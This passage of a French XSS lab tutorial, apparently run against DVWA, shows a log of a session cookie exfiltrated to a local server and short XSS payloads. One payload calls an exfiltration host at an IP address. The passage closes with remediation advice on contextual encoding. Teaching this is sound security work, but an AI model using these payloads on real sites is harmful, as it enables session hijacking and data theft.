 ### Observer l'exfiltration

Dans le terminal où tourne `python3 -m http.server 9000`, vous devriez voir :

```
GET /p.js HTTP/1.1
GET /?c=PHPSESSID%3D9hm7...; security=low HTTP/1.1
```

Le cookie de session a été exfiltré. Un attaquant peut maintenant :
- Voler la session de l'administrateur
- Usurper l'identité de n'importe quel utilisateur
- Accéder aux données sensibles

### Vérifications avec les DevTools

1. Ouvrir **DevTools** → **Network**
2. Filtrer par `9000`
3. Observer les requêtes vers `p.js` et `/?c=`

4. Ouvrir **DevTools** → **Application** → **Cookies**
5. Vérifier si le flag `HttpOnly` est coché (il ne devrait pas l'être en niveau "Low")


### Autres payloads utiles (moins de 50 caractères)

```html
<!-- Test d'exécution simple -->
"><svg/onload=alert(1)>

<!-- Test avec image -->
"><img src=x onerror=alert(1)>

<!-- Test de connectivité vers le serveur d'exfil -->
"><img src=http://10.20.204.87:9000>
```

Multiples payloads : 
[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)

---

## 5. Remédiation et bonnes pratiques 

### Principe fondamental : Ne jamais faire confiance aux entrées utilisateur

Toute donnée provenant de l'utilisateur doit être échappée ou sanitizée avant d'être affichée dans une page HTML.

### Règle d'encodage contextuel

L'échappement doit être adapté au contexte d'insertion :

| Contexte | Caractères à échapper | Méthode |
|----------|----------------------|---------|
| HTML body | `< > & " '` | `htmlspecialchars()` / `StringEscapeUtils.escapeHtml4()` |
| Attribut HTML | `< > & " '` | Idem + guillemets |
| JavaScript | `\ ' " / < >` + contrôle | Échappement Unicode |
| URL | Caractères spéciaux | `URLEncoder.encode()` |
| CSS | Caractères spéciaux | Échappement hexadécimal |
